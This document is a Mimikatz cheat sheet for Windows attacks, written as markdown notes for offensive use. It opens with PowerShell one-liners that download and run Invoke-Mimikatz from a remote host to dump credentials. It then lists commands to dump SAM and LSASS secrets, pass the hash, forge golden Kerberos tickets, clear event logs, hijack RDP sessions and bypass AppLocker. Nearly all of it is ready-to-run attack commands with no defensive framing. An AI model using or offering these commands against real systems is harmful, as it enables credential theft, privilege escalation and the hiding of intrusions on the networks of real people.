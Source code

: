 # Mimikatz Cheat sheet

## <mark style="color:red;">Loading Mimikatz</mark>

Loading the Script in Memory with PS from localhost:

```powershell
IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1/im.ps1') ; Invoke-Mimikatz -DumpCreds
```

Loading the Script in Memory with PS from GitHub repo:

```powershell
IEX (New-Object System.Net.Webclient).DownloadString(‘https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1’) ; Invoke-Mimikatz -DumpCreds
```

Loading the Script in Disk with PS:

```powershell
Invoke-WebRequest -UseBasicParsing http://192.168.52.200/Tools/Invoke-Mimikatz.ps1 -OutFile Invoke-Mimikatz.ps1 -Verbose
```

running remotely (on the same powershell session)

```powershell
Invoke-Mimikatz -Command '"sekurlsa::minidump lsass_612.dmp" "sekurlsa::logonPasswords"'
```

## <mark style="color:red;">Commands</mark>

### <mark style="color:orange;">bypass memory protections</mark>&#x20;

```
privilege::debug
token::elevate
```

### <mark style="color:orange;">List commands in module</mark>

Just type in the name of the module followed by :: and press enter

```
kerberos::
sekurlsa::
```

### <mark style="color:orange;">Base64 output of commands</mark>

```
base64 /out:true
base64 /out:false
```

### <mark style="color:orange;">dump the sam file</mark>

```
lsadump::sam
lsadump::sam /patch
```

### <mark style="color:orange;">Event</mark>

#### drop new event logs in system

```
event::drop
```

#### clear all event logs

```
event::clear  
```

### <mark style="color:orange;">sekurlsa</mark>

messing with LSA:

<pre><code># list  LM &#x26; NTLM credentials
mimikatz sekurlsa::msv
<strong>
</strong><strong># Lists WDigest credentials
</strong><strong>mimikatz sekurlsa::wdigest
</strong><strong>
</strong><strong># Lists Kerberos credentials
</strong>mimikatz sekurlsa::kerberos  &#x3C;I've seen this pull plain text passwords>

#  Lists TsPkg credentials
mimikatz sekurlsa::tspkg
mimikatz sekurlsa::livessp
mimikatz sekurlsa::ssp
mimikatz sekurlsa::logonPasswords
mimikatz sekurlsa::minidump
mimikatz sekurlsa::trust
mimikatz sekurlsa::backupkeys
mimikatz sekurlsa::tickets
mimikatz sekurlsa::ekeys
mimikatz sekurlsa::dpapi
mimikatz sekurlsa::credman</code></pre>

pass the hash

```
sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:[hash] /run:cmd
```

### <mark style="color:orange;">Tokens</mark>

#### show tokens

```
#list all
token::list

# important tokens
token::list /user:administrator
token::list /user:domainadmin
token::list /user:enterpriseadmin
token::list /user:system\
```

#### Run process with a token

```
token::run /process:cmd.exe
```

#### Get / revert those privileges

```
token::revert
token::elevate
```

### <mark style="color:orange;">kerberos</mark>

```
kerberos::list /export
kerberos::ptt c:\chocolate.kirbi

kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
kerberos::tgt
kerberos::purge
```

### <mark style="color:orange;">services</mark>

```
process::stop /pid:1234
process::suspend /pid:1234
process::resume /pid:1234
```

### <mark style="color:orange;">RDP</mark>

<pre><code># allow multi-session rdp
ts::multirdp
 
# List all current sessions
ts::sessions

# Takeover specified session
ts::remote /id:1

<strong># Pass RDP session into other sessions ID
</strong>ts::remote /id:1 /target:2
<strong>
</strong><strong># Use password of user who owns sessions
</strong>ts::remote /id:1 /password:F@ll2019!</code></pre>

### <mark style="color:orange;">Applocker bypass</mark>

Misc in mimikatz may be able to launch apps blocked by applocker etc.

```
misc::cmd
misc::regedit

#  Some kind of filter that can tell if it's running sysmon, kaspersky etc
misc::mflt 

# This will inject into explorer.exe for sneakiness
misc::wp /file:tacos.jpg
```







